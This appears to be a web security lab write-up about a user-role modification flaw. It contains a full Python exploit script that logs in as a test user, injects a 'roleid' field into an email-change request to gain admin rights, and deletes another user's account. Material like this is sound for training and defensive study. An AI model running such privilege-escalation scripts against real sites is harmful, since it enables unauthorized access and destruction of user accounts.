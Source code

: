 # Lab: User role can be modified in user profile

This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

---









We can also perform the following python script to resolve the lab:
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(s, url):

    # login as the wiener user
    login_url = url + "/login"
    data_login = {"username": "wiener", "password": "peter"}
    r = s.post(login_url, data=data_login, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        print("(+) Successfully logged in as the wiener user.")

        # Change the role id of the user
        change_email_url = url + "/my-account/change-email"
        data_role_change = {"email":"test@test.ca", "roleid": 2}
        r = s.post(change_email_url, json=data_role_change, verify=False, proxies=proxies)
        res = r.text
        if 'Admin' in res:
            print("(+) Successfully changed the role id.")

            # Delete the Carlos user
            delete_carlos_user_url = url + "/admin/delete?username=carlos"
            r = s.get(delete_carlos_user_url, verify=False, proxies=proxies)

            if r.status_code == 200:
                print("(+) Successfully delete Carlos user.")
            else:
                print("(-) Could not delete Carlos user.")
                sys.exit(-1)
        else:
            print("(-) Could not change the role id.")
            sys.exit(-1)
    else:
        print("(-) Could not login as the wiener user.")
        sys.exit(-1)



def main():
    if len(sys.argv) != 2:
        print("Usage: %s <url>" % sys.argv[0])
        print("Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    delete_user(s, url)


    

if __name__ == "__main__":
    main()
```
